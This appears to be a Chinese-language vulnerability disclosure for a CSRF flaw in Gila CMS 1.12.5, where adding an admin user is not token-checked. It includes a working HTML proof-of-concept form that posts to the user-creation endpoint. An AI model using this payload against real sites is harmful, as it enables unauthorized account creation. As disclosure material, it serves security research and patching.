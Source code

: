 ## Gila CMS 1.12.5 CSRF 漏洞

### 一、漏洞摘要
> 漏洞名称：Gila CMS 1.12.5 CSRF 漏洞
>
> 上报日期：2020-05-14
>
> 漏洞发现者：laot
>
> 版本：V1.12.5

### 二、漏洞概述
后台添加管理员处没有进行token验证，导致csrf漏洞的发生，构造对应的exp可导致添加用户。

文件:/src/core/controllers/cm.php

![](./images/20200514164051.jpg)

构造如下代码，保存为html文件并打开，将成功触发漏洞。
```
<html>
  <body>
    <form action="http://gila.test/cm/update_rows/user" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="test01" />
      <input type="hidden" name="email" value="test01&#64;qq&#46;com" />
      <input type="hidden" name="pass" value="123456" />
      <input type="hidden" name="active" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![](/images/20200514164255.jpg)